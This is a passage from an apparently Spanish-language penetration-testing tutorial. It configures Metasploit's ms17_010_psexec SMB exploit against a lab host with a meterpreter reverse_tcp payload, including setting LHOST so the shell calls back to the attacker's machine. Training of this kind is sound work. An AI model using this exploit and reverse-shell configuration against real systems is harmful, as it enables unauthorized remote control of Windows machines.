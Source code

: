 ```
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Finalmente, dado que estamos a punto de usar una carcasa inversa basada en TCP (`/windows/meterpreter/reverse_tcp`) Necesitamos especificar a qué dirección IP debe conectarse para establecer una conexión. Por lo tanto, necesitamos establecer`LHOST`a nuestra propia dirección IP como el siguiente:

### **MSF - Especificación LHOST**

Módulos

```
msf6 exploit(windows/smb/ms17_010_psexec) > setg LHOST 10.10.14.15

LHOSTS => 10.10.14.15

msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
```